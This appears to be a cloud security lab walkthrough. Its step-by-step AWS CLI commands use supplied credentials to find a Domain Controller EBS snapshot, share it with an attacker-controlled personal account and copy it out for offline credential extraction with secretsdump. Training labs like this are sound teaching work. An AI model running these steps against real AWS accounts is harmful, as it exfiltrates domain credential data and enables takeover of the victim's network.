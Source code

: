 ## Attack Flow

### Prerequisites
- Personal AWS account (separate from the lab account)
- Linux instance in your personal account (for analysis)
- Tools: `secretsdump.py` (from Impacket)

### Step 1: Reconnaissance
Use the provided credentials for `carlos.cardenas` to explore the environment:

```bash
# Configure AWS CLI with carlos.cardenas credentials
aws configure --profile carlos
# AWS Access Key ID: [provided in outputs]
# AWS Secret Access Key: [provided in outputs]
# Default region: us-east-1

# List available snapshots
aws ec2 describe-snapshots --profile carlos --owner-ids self
```

### Step 2: Identify Target Snapshot
Look for snapshots with tags indicating they belong to a Domain Controller:

```bash
# Filter snapshots by tags
aws ec2 describe-snapshots --profile carlos \
  --filters "Name=tag:VictimDC,Values=EkoCloudSecDC" \
  --query 'Snapshots[*].[SnapshotId,Description,VolumeSize,Tags]'
```

### Step 3: Share Snapshot with Personal Account
Use the `ModifySnapshotAttribute` permission to share the snapshot:

```bash
# Replace SNAPSHOT_ID with the actual snapshot ID
# Replace YOUR_ACCOUNT_ID with your personal AWS account ID
aws ec2 modify-snapshot-attribute --profile carlos \
  --snapshot-id SNAPSHOT_ID \
  --attribute createVolumePermission \
  --operation-type add \
  --user-ids YOUR_ACCOUNT_ID
```

### Step 4: Copy Snapshot to Personal Account
Switch to your personal AWS account:

```bash
# Configure your personal account
aws configure --profile personal

# Copy the shared snapshot
aws ec2 copy-snapshot --profile personal \
  --source-region us-east-1 \
  --source-snapshot-id SNAPSHOT_ID \
  --description "Copied DC snapshot for analysis"
```
